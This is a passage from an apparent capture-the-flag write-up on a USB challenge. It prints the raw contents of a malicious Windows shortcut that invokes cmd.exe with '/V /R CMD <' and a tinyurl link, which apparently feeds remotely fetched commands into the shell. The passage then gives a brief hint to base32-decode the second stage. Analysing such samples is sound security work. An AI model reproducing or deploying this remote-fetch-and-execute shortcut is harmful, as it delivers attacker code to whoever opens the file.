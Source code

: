 ```
 	      	 / V / R 	 C M D < h t t p s : / / t i n y u r l . c o m / a 7 b a 6 m a                              %windir%\System32\cmd.exe                                                                                                                                                                                                                                           % w i n d i r % \ S y s t e m 3 2 \ c m d . e x e                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             %   Õ         wNÁç]N·D.±®Q·Õ      	      1SPSâXFŒL8C»ü&mÎm          .   S - 1 - 5 - 2 1 - 3 9 4 6 0 9 1 4 9 - 2 8 0 1 1 4 6 6 4 8 - 1 9 9 4 9 5 5 9 4 9 - 3 0 0 2           `      X       8nlnh4j         æ('}}C`ðC\iù_d¿qìŒ  %diïæ('}}C`ðC\iù_d¿qìŒ  %diï    
```

the link point to some encoded data
![stage2](/assets/img/posts/nahamctf/usb_stage2.jpeg)
_stage2_

decode it from base 32
